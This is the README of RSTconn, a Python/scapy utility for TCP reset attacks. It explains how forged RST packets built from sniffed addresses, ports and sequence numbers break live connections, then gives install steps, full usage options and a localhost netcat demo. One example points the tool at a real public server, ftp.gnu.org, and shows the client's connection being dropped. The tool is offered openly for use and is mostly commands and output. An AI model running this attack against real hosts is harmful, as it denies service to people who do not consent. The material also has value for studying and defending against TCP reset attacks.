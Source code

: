 RSTconn
-------

A TCPKill is a utility that implements a **TCP reset attack**.
RSTconn works for both IPv4 and IPv6 and is written in python and scapy.

How RSTconn works
-------------

RESET is a flag in TCP packets to indicate that the connection is not longer working.
If any of the two participants in a TCP connection send a packet
contains such a RESET flag, the connection will be closed immediately.

Thus it can be use to attack TCP connections once the attacker can forge
TCP packets from any of the two parties if he or she know their IPs, ports
and the sequence number of current TCP connection.

The attack can be used to make certain users to fail to use certain
network services based on TCP if we know the information above.

In practice, we should eavesdrop the victims’ communications to get
their IPs, ports and the sequence number.

You can do it by filtering the TCP packets and find the newest packets that we want to attack.

We can sends a TCP packet with RESET flag and the IPs and ports of
source and destination are sniffed from victims. What’s more, the
sequence number will increase in TCP communication, its value should
be equal or lager than the ack value from the lastest packet the sender
received and in the window of receiver. So we should update it.
To ensure successful, we can send lots of packets with different
sequence number which is larger than the sniffed ack field.

Setup
-----

````
pip install rstconn
````

Usage
-----

````
rstconn kills network connections.

optional arguments:
  -h, --help            show this help message and exit
  --iface {lo,enp0s25,lxcbr0,docker0,br-d316e57def52,vethd4f41f0,veth6fa5336, ...}, -i {...}
                        Interface where to listen to
  --server-ip SERVER_IP, -sip SERVER_IP
                        IPv4 or hostname
  --client-ip CLIENT_IP, -cip CLIENT_IP
                        IPv4 or hostname
  --server-port SERVER_PORT, -p SERVER_PORT
                        Server port
  --packet-count PACKET_COUNT, -pc PACKET_COUNT
                        sends N RST packets
  --seq-jitter SEQ_JITTER, -sj SEQ_JITTER
                        Set seq_jitter to be non-zero in order to prove to yourself that the
                        sequence number of a RST segment does indeed need to be exactly equal
                        to the last sequence number ACK-ed by the receiver
  --ignore-syn, -is     if a Packet has SYN flag, not sending RST
  --window-size WINDOW_SIZE, -ws WINDOW_SIZE
                        Window size
  -d {CRITICAL,ERROR,WARNING,INFO,DEBUG}, --debug {CRITICAL,ERROR,WARNING,INFO,DEBUG}
                        Debug level, see python logging; defaults to INFO if omitted
  -m, --monitor         Just sniff traffic without sendin RST
  -v, --version         Print version and exit

````

RSTconn listens for the matching connections and than sends a
number of SYN/ACK and RST packets to the client to get the connection be killed.

The number of packets is configurable by `--packet-count`, `--iface` and
`--server-ip` and `--server-port` are related to the local server port to be listen on.

````
rstconn -i lo --server-ip 127.0.0.1 --server-port 8000 --packet-count 50
````

Demo
----

````
apt install netcat
````

- Setup TCP connection. In one terminal window run `nc -nvl 8000` to set up a server
- In another terminal window run `nc 127.0.0.1 8000` to connect to the server
- In a third window run `rstconn` to run our sniffing program

You should see the sniffing program log some output, send a RST packet, and the nc connection should be broken.

If you want to test rstconn in IPv6, use instead:

- `nc ::1 8000`
- `nc -nvl ::1 8000`
- `rstconn -i lo --server-ip "::1" --server-port 8000 -pc 33`

Usage examples
--------------

Reset connections to ftp.gnu.org
````
rstconn -i enp0s25 --server-ip ftp.gnu.org
````

on the client side we'll see
````
ftp> ls
421 Service not available, remote server has closed connection
````

without server/client ip, using only the port

````
rstconn -i lo --server-port 8000
````

Credits
-------

- https://gist.github.com/spinpx/263a2ed86f974a55d35cf6c3a2541dc2
- https://github.com/robert/how-does-a-tcp-reset-attack-work


References
----------

- Watson, P.: Slipping in the Window: TCP Reset attacks. (2004)
